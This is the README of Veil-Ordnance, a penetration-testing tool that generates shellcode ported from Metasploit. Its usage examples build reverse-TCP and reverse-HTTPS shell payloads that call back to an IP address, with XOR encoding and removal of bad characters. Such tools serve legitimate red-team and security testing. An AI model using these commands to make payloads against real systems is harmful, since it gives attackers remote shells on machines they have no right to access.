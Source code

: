 Veil-Ordnance
======

Veil-Ordnance is designed to quickly generate shellcode that can be used for exploits or payloads.  The inspiration for this came after multiple discussions between @christruncer, @themightyshiv, and @harmj0y where we identified a need for a tool that generates shellcode, that won't change its output on us.  Rather than rely on a third party to do this, we decided we should write our own.

All payloads in this tool were ported from the Metasploit Framework.  There is no claim to being the original author of any of the payloads.  The awesome guys working on the Metasploit Project deserve all praise for writing the different payloads within this tool.  Their payloads were simply ported from Ruby to Python.


Usage:

./Veil-Ordnance.py -p rev_tcp --ip 192.168.63.149 --port 8675

Examples:

./Veil-Ordnance.py -p rev_https --ip 192.168.63.149 --port 443 -e xor -b \x00\x0a --print-stats


Thanks:
Thanks to the Metasploit team for all their hard work.  Allowing their code to be used by the community is awesome, and really appreciated it.  Thanks to Jon Yates (@redbeardsec) for really helping to get my up to speed and providing his analysis on how payloads are generated.  Thanks to Justin Warner (@sixdub) for allowing me to include his shellcode encoder within Ordnance.


Call to Action:
We'd love for an additional encder, or more, to be added to Veil-Ordnance.  The more that can be added in/ported, the better coverage in ensuring that at least one encoder could be used to prevent any specific bad character.  If anyone is willing to port one, or send us a python version of their encoder, please hit us up, or send a pull request!  We'd be happy to give full credit to you.